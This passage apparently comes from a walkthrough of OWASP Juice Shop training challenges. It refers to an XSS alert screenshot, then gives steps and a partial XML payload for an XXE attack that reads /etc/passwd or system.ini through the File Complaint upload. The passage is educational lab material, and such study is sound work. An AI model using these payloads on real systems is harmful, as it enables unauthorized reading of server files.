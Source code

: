     ![After closing the XSS alert box in product details](media/blog4/xss3_product-modal_alert.png)
    

### **Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server**

1. Solve the [Use a deprecated B2B interface that was not properly shut down](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_use_a_deprecated_b2b_interface_that_was_not_properly_shut_down) challenge.
2. Prepare an XML file which defines and uses an external entity `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the *File Complaint* dialog and observe the Javascript console while doing so. It should give you an error message containing the parsed XML, including the contents of the local system file!
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    
    <!DOCTYPE foo [<!ELEMENT foo ANY >
            <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    